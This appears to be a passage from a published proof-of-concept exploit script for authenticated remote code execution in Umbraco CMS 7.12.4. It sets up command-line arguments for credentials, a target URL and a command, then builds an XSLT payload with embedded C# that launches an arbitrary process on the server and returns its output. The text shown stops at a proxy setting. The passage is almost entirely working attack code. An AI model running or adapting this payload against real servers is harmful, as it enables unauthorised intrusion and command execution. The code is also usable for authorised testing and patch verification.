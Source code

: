 **Proof of Concept Code Here:**

```
# Date: 2020-03-28
# Exploit Author: Alexandre ZANNI (noraj)
# Based on: https://www.exploit-db.com/exploits/46153
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# Example: python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig

import requests
import re
import argparse

from bs4 import BeautifulSoup

parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')                                                                                                                          
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,                                                                            
    dest='command', help='command')                                                                                                                       
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,                                                                        
    dest='arguments', help='arguments', default='')                                                                                                       
args = parser.parse_args()                                                                                                                                
                                                                                                                                                          
# Payload                                                                                                                                                 
payload = """\                                                                                                                                            
<?xml version="1.0"?><xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:csharp_user="http://csharp.mycompany.com/mynamespace"><msxsl:script language="C#" implements-prefix="csharp_user">public string xml() { string cmd = "%s"; System.Diagnostics.Process proc = new System.Diagnostics.Process(); proc.StartInfo.FileName = "%s"; proc.StartInfo.Arguments = cmd; proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true;  proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; }  </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/> </xsl:template> </xsl:stylesheet>\                                               
""" % (args.arguments, args.command)                                                                                                                      
                                                                                                                                                          
login = args.user                                                                                                                                         
password = args.password                                                                                                                                  
host = args.url                                                                                                                                           
                                                                                                                                                          
http_proxy  = "http://127.0.0.1:8080"                                                                                                                     
```